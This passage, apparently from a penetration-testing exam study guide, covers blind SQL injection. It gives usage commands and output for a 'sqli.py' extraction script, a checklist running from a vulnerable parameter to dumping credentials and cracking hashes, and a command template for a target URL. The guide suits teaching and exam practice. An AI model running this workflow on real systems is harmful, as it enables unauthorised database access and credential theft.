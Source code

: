 **Expected Output:**

```
shopdb
```

**Note**: Each character takes ~30 seconds (10 comparisons × 3 seconds). This is much slower than boolean but still works.

***

## Offline Practice Mode

### Test Without a Real Target

```bash
# Practice extracting "testdb"
python3 sqli.py --test-secret testdb --action extract --query "database()" --maxlen 16
# Output: testdb

# Get single character at position 3
python3 sqli.py --test-secret testdb --action char --query "database()" --pos 3
# Output: s

# Get length
python3 sqli.py --test-secret testdb --action length --query "database()" --maxlen 16
# Output: 6
```

This lets you verify the script logic before the exam.

***

## Quick Reference Cheat Sheet

### Your Discovery Checklist

```
[ ] Step 1: Found vulnerable parameter (id, user, search, etc.)
[ ] Step 2: Context type (single quote / numeric)
[ ] Step 3: Comment style (-- - / # / --)
[ ] Step 4: Boolean signal (text string / length / time)
[ ] Step 5: Template selected
[ ] Step 6: Database name extracted
[ ] Step 7: Table names extracted → found 'users'
[ ] Step 8: Column names extracted → found 'username', 'password'
[ ] Step 9: Credentials extracted
[ ] Step 10: Hashes cracked
```


### Command Template

```bash
python3 sqli.py \
  --url "http://TARGET/page.php" \
  --param VULN_PARAM \
  --base SAFE_VALUE \
  --template "TEMPLATE_FROM_STEP5" \
  --true-string "TEXT_FROM_STEP4" \
  --query "QUERY" \
  --maxlen 64
```
